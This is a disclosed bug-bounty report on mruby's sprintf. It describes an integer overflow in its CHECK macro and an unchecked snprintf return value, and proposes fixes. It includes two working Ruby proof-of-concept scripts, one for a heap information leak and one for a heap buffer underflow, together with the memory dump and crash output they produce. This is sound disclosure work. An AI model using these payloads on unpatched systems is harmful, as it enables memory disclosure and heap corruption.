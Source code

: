 # sprintf combined format string attack

## Report Details
- **Report ID**: 212241
- **URL**: https://hackerone.com/reports/212241
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-03-10T11:48:41.167Z
- **Disclosed**: 2017-09-22T00:05:00.297Z

## Reporter
- **Username**: aerodudrizzt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
In a ticket that was also reported to "shopify-scripts" regarding "MRuby", I reported in details a combined attack against the sprintf gem:
* Information leak
* Heap buffer underflow

The full ticket details can be found in:
* Ticket #212239
* The ticked was opened several minutes ago (but I add it in case it will be handled fast enough to be available to you too), and here are the details:

This ticket is somehow connected to Ticket #211190, that suggested another fix to the ```CHECK(l)``` macro. The attached code assumed that the ticket will be fixed like it was fixed in MRuby, however the vulnerabilities apply even without the fix, that was aimed at another vulnerability.

Technical Error 1:
==============
The ```CHECK(l)``` macro can sometimes receive negative values, that will bypass the size checks, since the resize loop is:
```cpp
#define CHECK(l) do {\
/*  int cr = ENC_CODERANGE(result);*/\
  while ((l) >= bsiz - blen) {\
    bsiz*=2;\
  }\
  mrb_str_resize(mrb, result, bsiz);\
/*  ENC_CODERANGE_SET(result, cr);*/\
  buf = RSTRING_PTR(result);\
} while (0)
```
One example for reaching a negative "l" value is in the "G" format when the width is "2 ** 31 - 20", causing need to be ```MIN_INT```:
```cpp
        if ((flags&FWIDTH) && need < width)
            need = width;
        need += 20;

        CHECK(need);
        n = snprintf(&buf[blen], need, fbuf, fval);
        blen += n;
```
Proposed Fix:
--------------------
Since there are several such IOFs, the best fix will be a robust check inside the macro itself.
The macro should add another check to raise an exception in case ```l < 0```.

Technical Error 2:
==============
Still in the "G" format, in case of a huge width, the snprintf call will fail, returning -1:
```cpp
        n = snprintf(&buf[blen], need, fbuf, fval);
        blen += n;
```
This means that we can decrement blen by 1 for each such format primitive.
Information Leak PoC Script:
```ruby
secret_password = "thisismysuperdupersecretpassword"

f = 1234567890.12345678
unique = sprintf("% 2147483628G", f)

sample1 = "1" * 50
sample2 = "2" * 100
sample3 = "3" * 200

print unique.length
print unique
```
On 32bit machines, the ```mrb_str_resize(-1)``` will create a string of length -1 with a data buffer realloced with size 0 (= -1 + 1). The resulting output is:
```
hexdump sprintf_leak.bin
0000000 312d 0000 0000 0000 0000 0000 0000 0000
0000010 0000 0000 0000 0000 0000 0000 0000 0000
*
0000080 0000 0000 0000 0039 0000 3131 3131 3131
0000090 3131 3131 3131 3131 3131 3131 3131 3131
*
00000b0 3131 3131 3131 3131 3131 3131 0000 0071
00000c0 0000 3232 3232 3232 3232 3232 3232 3232
00000d0 3232 3232 3232 3232 3232 3232 3232 3232
*
0000120 3232 3232 3232 0000 0000 0000 0000 00d1
0000130 0000 3333 3333 3333 3333 3333 3333 3333
0000140 3333 3333 3333 3333 3333 3333 3333 3333
*
00001f0 3333 3333 3333 3333 3333 0000 0000 05c9
0000200 0000 ca20 b76f ca20 b76f ebd8 095d ebd8
0000210 095d 0000 0000 0000 0000 0000 0000 0000
0000220 0000 0000 0000 0000 0000 0000 0000 0000
*
00007c0 0000 05c8 0000 0010 0000 001b 0000 0001
00007d0 0000 e048 095d 0029 0000 6874 7369 7369
00007e0 796d 7573 6570 6472 7075 7265 6573 7263
00007f0 7465 6170 7373 6f77 6472 0000 0000 0021
0000800 0000 0810 0000 e2c0 0959 0000 0000 0020
0000810 0000 e0f0 095d f200 095d 0000 0000 0029
0000820 0000 6874 7369 7369 796d 7573 6570 6472
0000830 7075 7265 6573 7263 7465 6170 7373 6f77
0000840 6472 0000 0000 0019 0000 2025 3132 3734
0000850 3834 3633 3832 0047 0000 0000 0000 0021
0000860 0000 0810 0000 e2c0 0959 0000 0000 000d
0000870 0000 e108 095d f260 095d 0000 0000 0019
0000880 0000 2025 3132 3734 3834 3633 3832 0047
0000890 0000 0000 0000 0021 0000 8010 0001 e2c0
00008a0 0959 0000 0000 0031 0000 0000 0000 0000
00008b0 0000 0000 0000 0021 0000 8010 0001 e2c0
00008c0 0959 0000 0000 0032 0000 0000 0000 0000
00008d0 0000 0000 0000 0021 0000 8010 0001 e2c0
00008e0 0959 0000 0000 0033 0000 0000 0000 0000
00008f0 0000 0000 0000 dd31 0001 0000 0000 0000
0000900 0000 0000 0000 0000 0000 0000 0000 0000
*
0001000
```
And a close look will tell us that:
* The print of unique.length returned -1: 0x2d, 0x31
*  Our "secret password" can be found at the last memory block of the dump.

Heap buffer underflow PoC Script:
--------------------------------------------------
```ruby
f = 1234567890.12345678
format = "% 2147483628G" * 10 + "!!!!!!!!!!!"

str1 = "1" * 120
unique = sprintf(format, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f, f)
print str1
```
Decrementing ```blen``` 10 times, will result in a buffer underflow of 10 bytes, that will write '!' on the str1, as can be seen in the dump:
```
*** Error in `./mruby': double free or corruption (out): 0x09905b30 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x67257)[0xb7530257]
/lib/i386-linux-gnu/libc.so.6(+0x6d577)[0xb7536577]
/lib/i386-linux-gnu/libc.so.6(+0x6dd31)[0xb7536d31]
./mruby[0x804c81b]
./mruby[0x80593f5]
./mruby[0x8052760]
./mruby[0x805a3a0]
./mruby[0x80596bb]
./mruby[0x80596f8]
./mruby[0x804ce4d]
./mruby[0x8049762]
./mruby[0x8049c48]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf7)[0xb74e1637]
./mruby[0x80491d1]
======= Memory map: ========
08048000-080ed000 r-xp 00000000 08:01 2883651    /XXX/mruby/bin/mruby
080ed000-080ee000 r--p 000a4000 08:01 2883651   /XXX/mruby/bin/mruby
080ee000-080ef000 rw-p 000a5000 08:01 2883651   /XXX/mruby/bin/mruby
098c0000-09924000 rw-p 00000000 00:00 0          [heap]
b7300000-b7321000 rw-p 00000000 00:00 0 
b7321000-b7400000 ---p 00000000 00:00 0 
b7495000-b74b1000 r-xp 00000000 08:01 656726     /lib/i386-linux-gnu/libgcc_s.so.1
b74b1000-b74b2000 rw-p 0001b000 08:01 656726     /lib/i386-linux-gnu/libgcc_s.so.1
b74c8000-b74c9000 rw-p 00000000 00:00 0 
b74c9000-b7678000 r-xp 00000000 08:01 656688     /lib/i386-linux-gnu/libc-2.23.so
b7678000-b7679000 ---p 001af000 08:01 656688     /lib/i386-linux-gnu/libc-2.23.so
b7679000-b767b000 r--p 001af000 08:01 656688     /lib/i386-linux-gnu/libc-2.23.so
b767b000-b767c000 rw-p 001b1000 08:01 656688     /lib/i386-linux-gnu/libc-2.23.so
b767c000-b767f000 rw-p 00000000 00:00 0 
b767f000-b76d2000 r-xp 00000000 08:01 656758     /lib/i386-linux-gnu/libm-2.23.so
b76d2000-b76d3000 r--p 00052000 08:01 656758     /lib/i386-linux-gnu/libm-2.23.so
b76d3000-b76d4000 rw-p 00053000 08:01 656758     /lib/i386-linux-gnu/libm-2.23.so
b76e9000-b76ec000 rw-p 00000000 00:00 0 
b76ec000-b76ee000 r--p 00000000 00:00 0          [vvar]
b76ee000-b76ef000 r-xp 00000000 00:00 0          [vdso]
b76ef000-b7711000 r-xp 00000000 08:01 656660     /lib/i386-linux-gnu/ld-2.23.so
b7711000-b7712000 rw-p 00000000 00:00 0 
b7712000-b7713000 r--p 00022000 08:01 656660     /lib/i386-linux-gnu/ld-2.23.so
b7713000-b7714000 rw-p 00023000 08:01 656660     /lib/i386-linux-gnu/ld-2.23.so
bff43000-bff64000 rw-p 00000000 00:00 0          [stack]
1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111!!Aborted (core dumped)
```
Proposed Fix:
--------------------
Should check the return value of ```snprintf ``` for errors, instead of directly using it by adding it to ```blen```.

## Attachments
No attachments
